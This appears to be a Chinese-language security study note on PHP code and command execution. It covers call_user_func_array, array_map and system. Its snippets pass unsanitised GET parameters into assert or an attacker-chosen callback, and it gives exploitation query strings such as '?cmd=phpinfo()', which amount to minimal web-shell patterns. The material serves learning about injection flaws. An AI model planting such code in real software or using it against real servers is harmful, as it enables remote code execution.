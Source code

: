 ### call_user_func_array函数
`call_user_func_array ( callable $callback , array $param_arr ) : mixed`
 把第一个参数作为回调函数（callback）调用，把参数数组作（param_arr）为回调函数的的参数传入。 
```php
<?php
call_user_func_array('assert', array('phpinfo()'));
?>
```
利用方式 `?cmd=phpinfo()`
```php
<?php 
$array=array($_GET['cmd']);
call_user_func_array("assert",$array);  
?>
```
<br/>

### array_map函数
` array_map ( callable $callback , array $array1 [, array $... ] ) : array`
 array_map()：返回数组，是为 array1 每个元素应用 callback函数之后的数组。 callback 函数`形参的数量和传给 array_map() 数组数量，两者必须一样。 
```php
<?php
    $array = array("dir","ping www.baidu.com");
    array_map($_GET["cmd"],$array);// ?cmd=system
?>
```
利用方法： `?a=assert&b=phpinfo();`
```php
<?php
$a = $_GET['a'];
$b = $_GET['b'];
$array = array($b);
$c = array_map($a,$array);
?>
```
<br/>

## 命令注入
常见的PHP命令注入
- system
- exec
- shell_exec
- passthru
- proc_open
- popen()
- ...
<br/>

### system函数
` system ( string $command [, int &$return_var ] ) : string`
最常见的命令执行函数system，可以调用当前系统的命令，并且输出执行结果
```php
<?php system("ls"); ?>
```
<br/>
